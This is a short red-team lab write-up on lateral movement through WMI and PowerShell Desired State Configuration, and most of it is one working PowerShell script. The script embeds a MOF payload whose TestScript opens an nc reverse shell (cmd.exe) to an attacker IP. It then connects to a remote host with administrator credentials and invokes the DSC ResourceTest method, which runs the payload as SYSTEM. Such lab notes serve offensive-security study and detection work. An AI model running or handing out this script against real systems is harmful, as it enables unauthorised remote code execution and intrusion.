


# WMI + PowerShell Desired State Configuration Lateral Movement

This lab is simply a test of the lateral movement technique desrcibed by Matt Graeber [here](https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06).

## Execution

Below is the powershell script that allows an attacker to execute code on a remote machine via WMI. Note that the payload is defined in the variable `TestScript` on line 7. In our case, the payload is a rudimentary nc reverse shell \(luckily, we know the victim has nc on their machine :\):


```csharp
# Credits to Matt Graeber. Code taken from https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06
$MOFContents = @'
instance of MSFT_ScriptResource as $MSFT_ScriptResource1ref
{
	ResourceID = "[Script]ScriptExample";
	GetScript = "\"$(Get-Date): I am being GET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	TestScript = "C:\\tools\\nc.exe 10.0.0.5 443 -e cmd.exe";
	SetScript = "\"$(Get-Date): I am being SET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	SourceInfo = "::3::5::Script";
	ModuleName = "PsDesiredStateConfiguration";
	ModuleVersion = "1.0";
	ConfigurationName = "ScriptTest";
};
 
instance of OMI_ConfigurationDocument
{
	Version="2.0.0";
	MinimumCompatibleVersion = "1.0.0";
	CompatibleVersionAdditionalProperties= {"Omi_BaseResource:ConfigurationName"};
	Author="TestUser";
	GenerationDate="02/26/2018 07:09:21";
	GenerationHost="TestHost";
	Name="ScriptTest";
};
'@

# Change this to false if you want to test the payload locally
$ExecuteRemotely = $True
 
$NormalizedMOFContents = [Text.Encoding]::UTF8.GetString([Text.Encoding]::ASCII.GetBytes($MOFContents))
$NormalizedMOFBytes = [Text.Encoding]::UTF8.GetBytes($NormalizedMOFContents)
$TotalSize = [BitConverter]::GetBytes($NormalizedMOFContents.Length + 4)
 
if ($ExecuteRemotely) {
	# Prepend the length of the payload
	[Byte[]] $MOFBytes = $TotalSize + $NormalizedMOFBytes
} else {
	# If executing locally, you do not prepend the payload length
	[Byte[]] $MOFBytes = $NormalizedMOFBytes
}


# Specify the credentials of your target
$Credential = Get-Credential -Credential "offense\administrator"
$ComputerName = 'ws02'
 
# Establish a remote WMI session with the target system
$RemoteCIMSession = New-CimSession -ComputerName $ComputerName -Credential $Credential
 
$LCMClass = Get-CimClass -Namespace root/Microsoft/Windows/DesiredStateConfiguration -ClassName MSFT_DSCLocalConfigurationManager -CimSession $RemoteCIMSession
 
if ($LCMClass -and $LCMClass.CimClassMethods['ResourceTest']) {
	# You may now proceed with lateral movement
 
	$MethodArgs = @{
    	ModuleName   	= 'PSDesiredStateConfiguration'
    	ResourceType 	= 'MSFT_ScriptResource'
    	resourceProperty = $MOFBytes
	}
 
	$Arguments = @{
    	Namespace  = 'root/Microsoft/Windows/DesiredStateConfiguration'
    	ClassName  = 'MSFT_DSCLocalConfigurationManager'
    	MethodName = 'ResourceTest'
    	Arguments  = $MethodArgs
    	CimSession = $RemoteCIMSession
	}
 
	# Invoke the DSC script resource Test method
	# Successful execution will be indicated by "InDesiredState" returning True and ReturnValue returning 0.
	Invoke-CimMethod @Arguments
 
} else {
	Write-Warning 'The DSC lateral movement method is not available on the remote system.'
}
```


The technique is captured in action in a gif below. On the left is the attacking system, on the right is the victim system and the window above the victim screen is another attacking system that is receiving the reverse shell:



## Observations

Note the process ancestry and that our code was run with privileges of`NT AUTHORITY\SYSTEM`:



## References



